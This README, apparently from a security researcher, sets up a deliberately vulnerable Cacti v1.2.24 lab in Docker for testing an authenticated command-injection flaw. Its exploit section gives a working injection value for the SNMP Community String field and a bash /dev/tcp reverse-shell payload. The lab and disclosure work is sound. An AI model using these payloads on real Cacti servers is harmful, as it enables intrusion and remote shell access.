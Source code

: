 # Cacti v1.2.24 authenticated command injection (CVE-TBD) vulnerable application

This is a vulnerable application to test the exploit for the **Cacti** vulnerability (**CVE-TBD**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the CVE-TBD exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-TBD
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-TBD](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-TBD)
* **Description**: TBD

## Usage

Here the steps to **setup** the environment:
1. Launch `docker compose up -d` to start composition.
2. You can finalize the steps by browsing to [http://127.0.0.1/cacti](http://127.0.0.1/cacti) to start the Cacti initialization wizard. If you get an error referring to the database, just wait a little bit and refresh the page.
3. Default credentials are `admin`/`admin`.
4. Press "*Next*" to all the buttons during the wizard, choosing options accordingly. All the defaults should be fine and all the mandatory prerequisites should be satisfied.
5. After the installation, login as the `admin`.
6. Go to "*Console*" > "*Configuration*" > "*User*".
7. Click on the `guest` user.
8. "*Enable*" it, set a password, disable the "*Must Change Password at Next Login*" if you want.
9. Click on the "*Save*" button.
10. Go to the "*Permissions*" section.
11. Under "*General Administration*", enable "*Console Access*" and "*Sites/Devices/Data*".
12. Click on the "*Save*" button.
13. Logout and re-login as `guest` to try the exploit.

The container will be called `vuln-cacti`.

The hostname for a test SNMP device is `monitored_snmp_device`.

To **teardown** the environment use `docker compose down` command.

The official installation guide of Cacti can be found [here](https://docs.cacti.net/README.md#cacti-installation).

## Root cause

A detailed root cause of the vulnerability is available in the [original security advisory](https://github.com/Cacti/cacti/security/advisories/GHSA-g6ff-58cj-x3cp) or in [my blog post](https://m3ssap0.github.io/articles/cacti_authenticated_command_injection_snmp.html).

## Exploit

(This is *only one possible* exploit)

1. Go to "*Console*" > "*Create*" > "*New Device*".
2. Create a Device that supports SNMP version 1 or 2.
3. Ensure that the Device has Graphs with one or more templates of:
    * "*Net-SNMP - Combined SCSI Disk Bytes*"
    * "*Net-SNMP - Combined SCSI Disk I/O*"
    * (Creating the Device from the template "*Net-SNMP Device*" will satisfy the Graphs prerequisite)
4. In the "*SNMP Options*", for the "*SNMP Community String*" field, use a value like this: `public\' ; touch /tmp/m3ssap0 ; \'`.
5. Click the "*Create*" button.
6. Check under `/tmp` the presence of the created file.

To obtain a reverse shell, a payload like the following can be used.
```
public\' ; bash -c "exec bash -i &>/dev/tcp/<host>/<port> <&1" ; \'
```

## Authors

* **Antonio Francesco Sardella** - *vulnerability reporter* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.
